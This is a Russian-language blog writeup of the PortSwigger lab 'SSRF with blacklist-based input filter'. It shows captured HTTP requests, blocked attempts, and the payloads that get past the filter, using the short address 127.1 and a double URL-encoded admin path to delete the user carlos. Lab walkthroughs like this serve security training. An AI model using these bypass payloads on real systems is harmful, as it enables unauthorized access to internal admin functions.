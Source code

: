 ```yaml
---
title: "SSRF with blacklist-based input filter"
date: 2025-07-22
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/ssrf-attacks/ssrf-attacks-circumventing-defenses/ssrf/lab-ssrf-with-blacklist-filter#"
classes: wide
---
```


Эта лаба содержит уязвимость **SSRF** (Server-side request forgery).

Для ее решения нужно получить доступ к интерфейсу админа `http://localhost/admin` и удалить пользователя `carlos`.

```
https://0a71006d04dde7948159e33700d200f4.web-security-academy.net/
```

## Solution

Немного посмотрю, как работает сайт, и заодно соберу `HTTP`-запросы через `Burp Proxy`. Кред для входа нам не дали(

Нашел запрос на проверку наличия товара:

```http
POST /product/stock HTTP/2
Host: 0a71006d04dde7948159e33700d200f4.web-security-academy.net
Cookie: session=dYYyqMOn0ccjpc3CG25VsB42YI4ApEIj
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a71006d04dde7948159e33700d200f4.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0a71006d04dde7948159e33700d200f4.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

В параметре `stockApi` передается адрес для запроса `http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1`.

Попробую передать нужный `http://localhost/admin`.

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 51

"External stock check blocked for security reasons"
```

Попробую закодировать запрос в `URL`:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 51

"External stock check blocked for security reasons"
```

Далее буду пробовать разные варианты запроса:

```
http://127.0.0.1/admin - err
http://127.0.0.1/%61%64%6d%69%6e - err
http://127.1/%61%64%6d%69%6e - err
```

Попробую разделить запроса на 2 предполагаемых фильруемых значения `localhost` и `/admin`. Начну с `localhost`:

```
http://127.0.0.1 - err
http://127.1 - OK
```

Сайт распарсил сокращенный вариант адреса. Супер, теперь попробую добавить `/admin`:

```
http://127.1/admin - err
http://127.1/%25%36%31%64%6d%69%6e - OK
```

Из оригинального запроса было видно, что можно применить `URL`-кодирование. Я закодировал `а` в `URL` и получил `%61dmin`, а затем закодировал все это еще раз.

На полученной странице видно следующее:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_SSRF_with_blacklist-based_input_filter/1.png){: height="200" .align-center}

Для удаления пользователя нужно использовать ручку `/admin/delete?username=carlos`. Попробую использовать это, закодировав путь дважды:

```
http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65%25%32%66%25%36%34%25%36%35%25%36%63%25%36%35%25%37%34%25%36%35%25%33%66%25%37%35%25%37%33%25%36%35%25%37%32%25%36%65%25%36%31%25%36%64%25%36%35%25%33%64%25%36%33%25%36%31%25%37%32%25%36%63%25%36%66%25%37%33
```

Ответ:

```http
HTTP/2 302 Found
Location: /admin
Set-Cookie: session=i0GScmiflIc0foM1PmWdwDsY2xKSF4gm; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Пользователь успешно удален:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_SSRF_with_blacklist-based_input_filter/2.png){: height="200" .align-center}
